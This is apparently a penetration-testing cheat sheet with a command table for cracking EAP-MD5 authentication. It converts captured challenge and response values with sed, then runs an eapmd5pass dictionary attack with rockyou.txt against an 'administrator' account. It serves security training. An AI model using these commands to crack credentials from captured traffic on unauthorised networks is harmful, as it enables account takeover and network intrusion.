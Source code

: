 # Cracking EAP-MD5

| Command | Description |
| --- | --- |
| `echo 776b900e685dea0230b41eec2010535c \| sed 's/\(..\)/\1:/g;s/:$//'` | Convert the Request Challenge EAP-MD5 value into Colon Hexadecimal format. |
| `echo 054ea58706a52f0c95fc47ccf11eb5a1 \| sed 's/\(..\)/\1:/g;s/:$//'` | Convert the Response Challenge EAP-MD5 value into Colon Hexadecimal format. |
| `eapmd5pass -w /opt/rockyou.txt -U administrator -C <request_challenge> -R <response_challenge> -E <request_id>` | Perform a dictionary attack to crack the EAP-MD5 hash. |